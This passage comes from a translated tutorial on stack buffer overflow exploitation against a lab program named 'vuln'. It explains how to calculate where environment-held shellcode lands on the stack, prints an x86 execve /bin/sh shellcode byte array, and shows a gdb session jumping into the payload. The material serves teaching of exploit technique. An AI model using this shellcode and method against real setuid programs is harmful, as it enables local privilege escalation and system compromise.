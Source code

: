 execle(PATH, PATH, arg, NULL, env);  
panic(“Error en execle()”);  
}

Apart from the differences in style (and I’ve used a somewhat better shellcode) it is shown on line

\*addr = 0xffffe000 - 4 \* 2 - (strlen(PATH) + 1) - (strlen(shellcode) + 1);

Differences when calculating the address of the shellcode. The most obvious is that before the stack starting in 0xbfffffff, now in 0xffffe000. Another important thing is that, as we have said, once at the top of one stack was `0x00000000`, now there are two, there appear instead of a simple `-4`, display a `-4*2`, to subtract 8 bytes add the two `0x00000000`. This is subtracted from the length of the program name and length of the shellcode. It is particularly funny how blackngel indicates that this must be normally add an “extra” byte, without explanation. That “extra” byte must always subtract, as it is the byte string ending the program name. Equally, I cannot explain another “extra” byte to be subtracted which is the ending environment variable with our shellcode is not mentioned, because although it is a binary value, not a chain (consists of characters printable) in the exploit what we have defined as a string (found in quotation marks), and if we define it as an array of char s and not end up with a null byte, when placing execve() (called by execle()) environment variables on the stack of the new process will not know when to stop reading, reading (and writing each byte read in the stack of the new process) until a null byte, as it expects each environment variable is a chain. Then the null byte **must** exist.

If someone wishes to test on the latter, you must define the `shellcode` array within a function, because if it is declared as global, will be located in the `.data` section, which, almost certainly, will be placed at the end of this section. Each section is terminated by at least one 0x00000000, so we find that our shellcode has been terminated by a null byte and we cannot experience the need to define environment variables as strings.

    int main()
    {
        char shellcode[] = {0x31, 0xc0, 0x50, 0x68, 0x2f, 0x2f, 0x73, 0x68,
                            0x68, 0x2f, 0x62, 0x69, 0x6e, 0x89, 0xe3, 0x50,
                            0x53, 0x89, 0xe1, 0x31, 0xd2, 0xb0, 0x0b, 0xcd,
                            0x80};
        [...]
    }

Once this is done you can proceed to examine the process stack victim:

$ gdb -q ./vuln
Reading symbols from ./vuln...(no debugging symbols found)...done.
(gdb) set exec-wrapper ./x
(gdb) br \*imprimir +26
Breakpoint 1 at 0x8048425
(gdb) run
Starting program: /home/arget/vuln 
Usando direccion: \[ 0xffffdfd8 \]
Payload: 41414141414141414141414141414141414141414141d8dfffff

Breakpoint 1, 0x08048425 in print ()  
(gdb) display /i $pc  
1: x/i $pc  
\=> 0x8048425 <print+26>: ret  
(gdb) nexti  
0xffffdfd8 in ?? ()  
1: x/i $pc  
\=> 0xffffdfd8: jae 0xffffe042  
(gdb) x $eip  
0xffffdfd8: 0x2f686873  
(gdb)  
0xffffdfdc: 0x896e6962  
(gdb)  
0xffffdfe0: 0x895350e3  
(gdb)  
0xffffdfe4: 0xb0d231e1  
(gdb)  